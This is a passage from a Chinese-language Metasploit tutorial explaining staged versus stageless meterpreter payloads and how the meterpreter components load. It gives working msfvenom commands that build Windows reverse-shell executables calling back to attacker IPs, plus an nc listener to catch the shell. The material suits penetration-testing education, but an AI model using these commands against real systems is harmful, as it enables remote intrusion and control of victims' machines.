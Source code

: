 ![](../../../assets/img/Security/安全工具/Metasploit/2.png)

这时，我们的攻击机，已经开始监听 4444 端口了，只要连接一成功，就会把 meterpreter shell 最核心的 dll 文件发送到靶机上

![](../../../assets/img/Security/安全工具/Metasploit/3.png)

我们之前说过，当靶机运行了我们的 shellcode，会在内存里面开辟一块土地，这个地方就是为我们的 metsrv 留的，metsrv.dll 这个文件是 meterpreter 的核心组件，有了他，我们才能获取到一个 meterpreter shell，当 metsrv 传输成功之后，shellcode 就会把控制权转给 metsrv，metsrv 这时再去请求另外两个 dll 文件 stdapi 和 priv。这个时候目标就上线了.

![](../../../assets/img/Security/安全工具/Metasploit/4.png)

**Stageless**

现在我们知道了 meterpreter/reverse_tcp 是分阶段的 shellcode，并且他分阶段的原因是因为在溢出攻击的时候 shellcode 应该尽可能保持得更短，这个时候理解他小兄弟 meterpreter_reverse_tcp 就方便的多，和 meterpreter/reverse_tcp 不同的是，他的小兄弟 meterpreter_reverse_tcp 是一个不分阶段的 payload，我们称之为 stageless(unstage)，他在生成的时候就已经将我们获取一个 meterpreter 必须要用的 stdapi 已经包含在其中了。那这又有什么好处呢？试想一下，如果我们通过层层的代理，在内网进行漫游，这个时候使用分阶段的 payload 如果网络传输出现了问题，metsrv.dll 没有加载过去，可能就会错失一个 shell，stageless 的 payload 会让人放心不少

默认的 stageless payload 只会包含 stageless，所以如果想将 stdapi 和 priv 两个组件给包含进去的话我们可以用 extensions 命令：
```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe
```

**回弹至 nc**

分阶段的 payload，我们必须使用 exploit/multi/handler 这个模块使用，但是当我们想回弹一个基础的 shell 的时候，其实可以使用 nc 来监听端口直接回连到 nc 上

当有时获取到了 root 权限，想反弹 linux shell 的时候，这时 meterprter 的需求就不是那么高了，我们就可以使用 shell_reverse_tcp(或者是 bind) 来生成一个 stageless 的 bash 脚本，直接使用 nc 来接受 shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.141.143 LPORT=4444 -f exe > ./vu.exe
```

nc 监听
```bash
nc -tvlp 4444
```

接收回弹

![](../../../assets/img/Security/安全工具/Metasploit/5.png)
